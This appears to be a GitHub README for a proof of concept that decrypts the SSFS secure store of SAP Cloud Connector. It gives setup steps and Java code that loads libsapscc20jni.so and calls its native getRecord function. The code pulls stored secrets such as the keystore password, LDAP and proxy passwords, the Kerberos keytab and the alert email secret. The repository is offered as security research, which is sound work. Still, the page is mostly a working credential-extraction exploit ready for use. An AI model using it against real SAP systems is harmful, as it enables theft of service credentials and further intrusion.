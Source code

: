 # SAP_Cloud_Connector_SSFS_Decryption
This repository offers a Proof of Concept (PoC) for decrypting SAP Cloud Connector SSFS. The core feature of this PoC is the exploitation of an exported function - getRecord, present in the libsapscc20jni.so file. The advantage is that you can decrypt the SSFS properties values WITHOUT REVERSING THE ECRYPTION ALGORITHM.

![image](https://github.com/redrays-io/SAP_Cloud_Connector_SSFS_Decryption/assets/7976421/9ad06d58-f85b-4735-b4a3-974308698f57)


To begin, you are required to download the SSFS file from the SAP Server to your personal device. As an instance, in my case, the SSFS was stored at this location on my laptop: /home/vah13/research/SSFS_SCC.DAT.
Before initiating the decryption process, it is necessary to define two parameters in the environment:

* The SAP System ID (SID). Set it with this command: export SAPSYSTEMNAME=SCC.
* The pathway to SSFS excluding the complete filename. Set it with this command: export RSEC_SSFS_DATAPATH=/home/vah13/research/SSFS.

It's important to utilize the libsapscc20jni.so library.
You can now compile and run the following code to decrypt the SSFS:
```java
package com.sap.scc.jni;  // the package must be com.sap.scc.jni

import java.io.IOException;
import java.util.Properties;

public class SecStoreAccess { // the class name must be SecStoreAccess
  
  static synchronized native char[] getRecord(final String p0) throws SecStoreAccessException, IllegalArgumentException;
  
  public static void main(String[] args) throws IOException {
    if (args.length > 1 )
    {
      System.out.print("java -jar decode.jar");
    }
    
    System.load("/usr/lib/libsapscc20jni.so");
    try
    {
      /* 
      available parameters for getRecord function
      
      "CLOUD_CONN/JAVA_KEYSTORE_PASSWORD";
      "CLOUD_CONN/SCIM_SERVICE_USER_PASSWD";
      "CLOUD_CONN/LDAP_SERVICE_USER_PASSWORD";
      "CLOUD_CONN/PROXY_PASSWORD";
      "CLOUD_CONN/KERBEROS_KTAB";
      "CLOUD_CONN/SYSTEM_CERTIFICATE";
      "CLOUD_CONN/ALERT_EMAIL_SERVER_SECRET";
      */      
      char[] result = getRecord("CLOUD_CONN/JAVA_KEYSTORE_PASSWORD");
      System.out.println(new String(result));
    
      }catch (Exception e)
    {
      e.printStackTrace();
    }
  }

}
```
![image](https://user-images.githubusercontent.com/7976421/202764294-14d66338-b94f-4825-8fec-cb673f46e15c.png)
